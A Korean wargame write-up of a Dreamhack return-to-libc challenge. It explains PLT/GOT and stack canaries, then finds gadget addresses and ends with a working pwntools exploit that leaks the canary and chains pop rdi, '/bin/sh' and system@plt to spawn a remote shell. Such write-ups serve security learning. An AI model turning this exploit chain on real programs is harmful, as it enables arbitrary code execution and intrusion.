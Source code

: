 ```yaml
---
tags: [dreamhack, wargame, write-up]	
---
```


@PLT

ELF 바이너리에서 외부 바이너리 함수(system, puts, printf 등)은 실행파일 안에 실제 코드가 없고, glibc 같은 외부에서 제공된다.

근데 어디 있는지는 런타임에만 알 수 있어서 아래와 같이 동작한다.

1. PLT : 실행파일에 고정된 점프 테이블
2. GOT (Global Offset Table) : 실제 함수 주소를 담는 테이블 (런타임에 채워짐)

```bash
main() → call system@plt
```

→ PLT → GOT (비어있음)
→ dynamic linker가 찾음
→ GOT에 진짜 system 주소 넣음
→ PLT → GOT (진짜 주소 있음)
→ system 함수 실행

![Image](/assets/img/rtl/image1.png)

![Image](/assets/img/rtl/image2.png)

![Image](/assets/img/rtl/image3.png)

카나리는 보통 스택 보호(stack canary) 기능의 일부인데, 이 값은 프로세스가 실행될 때마다 새로 생성된다. 즉, 카나리는 프로세스 단위로 고정된다.

해당 프로그램은 한 세션에서 두 번의 read를 사용하기 때문에 첫 read에서 canary의 값을 얻어내고, 두번째 read에서 해당 canary 값을 포함한 payload를 전송하여 return address를 system(/bin/sh) 주소로 변경시키면 되는 문제로 추정된다.

리턴주소를 조작해서 libc에 있는 함수(system 등)를 호출하는 기술을 RTL(Return to Libc)라고하는데, 

32bit 환경과 64bit 환경에서의 RTL은 차이가 있다.

32bit에서는 함수 인자를 스택에 push해서 전달한다.

ex)

```bash
payload = b"A"*offset
payload += p32(system_addr)
payload += p32(exit_addr)         # system 끝나고 exit 호출할 주소
payload += p32(binsh_addr)        # system의 인자
```

64bit에서는 인자를 스택이 아닌 레지스터로 전달한다.

ex)

```bash
payload = b"A"*offset
payload += p64(pop_rdi_ret)
payload += p64(binsh_addr)
payload += p64(system_addr)
```

단순히 RET를 덮는 것 만으로는 안 되고, system()을 호출하기 전에 RDI에 우리가 원하는 값을 직접 넣어줘야 한다.

그래서 필요한 게 바로 ROP 가젯(pop rdi; ret)이다.

해당 문제는 64bit환경이다.

따라서 우리가 알아내야 할 정보는 system() 주소, binsh 문자열 주소, ROP 가젯, canary 이다.

1. system()

![Image](/assets/img/rtl/image4.png)

system 함수의 PLT , GOT 주소는 위와 같이 찾을 수 있다.

우리는 PLT 주소를 사용할 것이기 때문에 필요한 값은 “0x4005d0”이다.

1. binsh

![Image](/assets/img/rtl/image5.png)

pwndbg의 search 명령어를 사용하면 binsh의 주소가 3개 뜨는데, system 함수의 경우 인자로 문자열의 주소를 필요로 하기 때문에 우리에게 필요한 주소는 “0x400874”가 된다.

1. canary

![Image](/assets/img/rtl/image6.png)

buf부터 rbp까지의 거리: 0x40

buf부터 canary까지의 거리: 0x40-0x08 = 0x38

1. ROP gadget

```bash
ROPgadget --binary ./rtl | grep "pop rdi"
```

![Image](/assets/img/rtl/image7.png)

ROP 가젯 : 0x0000000000400853

그리고 여기에 추가적으로,

현재 버퍼를 오버플로우 시켜서 → 카나리 덮고 → SFP 덮고 → 리턴주소를 덮는 과정에서 우리가 덮는 리턴 주소 때문에 스택 포인터(rsp)가 8바이트 밀리는 현상이 발생할 수 있다.

그런데 system()이나 puts() 같은 함수들은 내부적으로 SSE 명령어 등 16바이트 정렬이 필요한 명령어를 쓰는 경우가 있다.

따라서 system() 호출 직전에 ret 가젯을 추가해서 현재 깨져있는 rsp를 +8 올려서 정렬을 맞춰줘야 한다.

1. ret

```bash
ROPgadget --binary ./rtl | grep "ret$"
```

![Image](/assets/img/rtl/image8.png)

```bash
from pwn import *

p = remote('host3.dreamhack.games', 15020)

pop_rdi_ret = 0x400853
bin_sh_addr = 0x400874
system_plt = 0x4005d0
ret = 0x400596

payload = b'A'*0x39
p.sendafter(b'Buf: ',payload)
p.recvuntil(payload)

canary = u64(p.recv(7).rjust(8, b"\x00"))
print('canary', hex(canary))

payload = b'A'*0x38
payload += p64(canary)
payload += b'B'*8
payload += p64(pop_rdi_ret)
payload += p64(bin_sh_addr)
payload += p64(ret)
payload += p64(system_plt)

p.sendafter(b'Buf: ', payload)
p.interactive()
```

![Image](/assets/img/rtl/image9.png)